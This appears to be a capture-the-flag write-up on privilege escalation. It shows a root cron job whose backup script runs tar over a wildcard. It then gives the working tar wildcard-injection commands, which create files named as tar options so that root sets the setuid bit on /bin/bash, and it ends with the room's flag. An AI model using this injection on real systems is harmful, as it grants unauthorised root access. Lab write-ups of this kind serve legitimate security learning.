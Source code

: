 # Privilege Escalation

## /etc/crontab

`*/2   * * * *	root	/var/opt/backupsrv.sh`

# /var/opt/backupsrv.sh

```
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

tar command is being used here. Let's try looking in for wildcard privilege

```
echo "chmod u+s /bin/bash" > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
ls- la /bin/bash
```

# root.txt

```
THM{220b671dd8adc301b34c2738ee8295ba}
```